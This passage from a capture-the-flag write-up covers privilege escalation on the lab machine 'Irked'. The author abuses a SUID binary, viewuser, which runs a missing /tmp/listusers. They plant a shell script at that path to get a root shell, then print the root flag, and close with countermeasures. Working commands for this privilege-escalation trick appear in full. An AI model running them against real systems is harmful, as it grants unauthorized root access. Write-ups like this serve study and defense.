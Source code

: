 Notably, the `/usr/bin/viewuser` stands out as a custom application. I figured I might be able to abuse this binary since it will run with root privileges:

```
djmardov@irked:/dev/shm$ /usr/bin/viewuser -h
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2020-09-21 16:29 (:0)
ircd     pts/1        2020-09-21 20:03 (10.10.14.18)
sh: 1: /tmp/listusers: not found
```

The error `sh: 1: /tmp/listusers: not found` is super suspicious because it looked like a failed shell invocation.
Since the `/tmp/` directory is world-writable, I wrote a shell script so that the script would invoke a shell with root privileges:

```
djmardov@irked:/dev/shm$ echo '#!/bin/sh' > /tmp/listusers
djmardov@irked:/dev/shm$ echo '/bin/bash' >> /tmp/listusers
djmardov@irked:/dev/shm$ chmod +x /tmp/listusers
djmardov@irked:/dev/shm$ /usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2020-09-21 16:29 (:0)
ircd     pts/1        2020-09-21 20:03 (10.10.14.18)
root@irked:/dev/shm# id
uid=0(root) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)
```

From here, I was able to compromise the system and grab the root flag:

```
root@irked:/dev/shm# cat /root/root.txt
8d8e9e8be64654b6dccc3bff4522daf3
```

### Failed Privilege Escalation Enumeration

* Failed Dirty COW exploit
* Failed CUPS exploits

## Countermeasures

* Upgrade to the latest version of Unreal IRCd. Carefully watch the changelogs to ensure no backdoor trojans are introduced and always download Unreal IRCd binaries from trusted sources.
* Don't give other users on the system hints on where to find your passwords.
* Restrict SUID binaries to be executable as root only by a particular group of users.
